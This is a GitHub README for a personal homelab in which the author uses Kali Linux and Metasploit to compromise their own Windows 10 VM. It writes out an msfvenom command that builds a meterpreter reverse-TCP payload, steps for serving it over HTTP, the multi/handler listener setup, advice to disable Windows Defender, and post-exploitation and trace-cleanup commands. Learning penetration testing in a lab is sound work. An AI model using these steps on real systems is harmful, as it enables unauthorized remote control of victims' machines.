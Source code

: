 # Kali-Metasploit-Project-Homelab

# Metasploit Penetration Testing Project

## 📌 Overview
For my project I demonstrated the use of **Metasploit Framework** to exploit a **Windows 10 VM** using a **Kali Linux VM** as the attacker. It covers the full penetration testing process, from setting up the environment to executing post-exploitation techniques.

⚠️ **Disclaimer:** This project is for educational and ethical hacking purposes only. Unauthorized access to computer systems is illegal. Always obtain permission before testing.

## 📸 Screenshots of My Metasploit Project

### 1️⃣ Kali Linux Attacking the Windows 10 VM|Successful Exploit Session: 
https://github.com/AndreeSalvo/Kali-Metasploit-Project-Homelab/blob/main/Kali%20Linux%20Attacking%20the%20Windows%2010%20VM%20Successful%20Exploit%20Session.png

### 2️⃣ Windows 10 Target VM|File explorer w/ the payload:
https://github.com/AndreeSalvo/Kali-Metasploit-Project-Homelab/blob/main/Payload%20into%20the%20file%20explorer.png

### 3️⃣ Windows 10 Target VM|CMD prompt executed payload:
https://github.com/AndreeSalvo/Kali-Metasploit-Project-Homelab/blob/main/Executed%20the%20payload.png?raw=true


---

## 🔧 Installation & Setup

### **1️⃣ Install VMware Workstation Pro**
- Download and install VMware Workstation Pro from [VMware’s official site](https://www.vmware.com/products/workstation-pro.html).

### **2️⃣ Set Up Virtual Machines**
#### **Kali Linux VM (Attacker)**
- Download the latest **Kali Linux** ISO from [Kali’s official website](https://www.kali.org/).
- Install Kali on VMware and ensure **Metasploit Framework** is installed:
  ```bash
  sudo apt update && sudo apt install metasploit-framework -y

Windows 10 VM (Target)
- Install a Windows 10 virtual machine.
- Disable Windows Defender to prevent automatic deletion of the payload.

3️⃣ Configure Network Settings
I used the Bridged Adapter for both VMs to allow network communication.
Check IP addresses:
ip a   # On Kali
ipconfig   # On Windows (Command Prompt)

🎯 Exploitation Steps
1️⃣ Generate Payload (Malicious Executable)
Run the following msfvenom command on Kali to create a reverse shell payload:
msfvenom -p windows/meterpreter/reverse_tcp LHOST=<Your_Kali_IP> LPORT=4444 -f exe > payload.exe

2️⃣ Transfer Payload to Windows 10
Use a USB drive:
- sudo cp payload.exe /media/kali/USB_NAME/
- python3 -m http.server 8080
- http://<Your_Kali_IP>:8080/payload.exe

3️⃣ Start the Metasploit Listener
Launch Metasploit and set up the exploit:
msfconsole #start metasploit
- use exploit/multi/handler
- set payload windows/meterpreter/reverse_tcp
- set LHOST <Your_Kali_IP>
- set LPORT 4444
- exploit

4️⃣ Execute Payload on Windows
Run payload.exe on Windows. If successful, Meterpreter will open:
meterpreter >

🔥 Post-Exploitation Techniques
Once inside Meterpreter, try these:

Check system info:
- sysinfo
- getuid
- screenshot

🛑 Cleanup & Exit
To remove traces and exit:
- rm C:\\Users\\Public\\payload.exe
- exit
- sessions -K

⚖️ Legal & Ethical Considerations
This project is intended for educational purposes only. Unauthorized penetration testing is illegal under the Computer Fraud and Abuse Act (CFAA). Only perform tests in authorized environments with explicit permission.

I hacked a windows 10 vm on my personal Virtual Machine! so if you plan on doing this, please be responisble! 

Always hack responsibly! 🚀

📜 License
This project is released under the MIT License. You are free to use, modify, and distribute it for educational purposes.
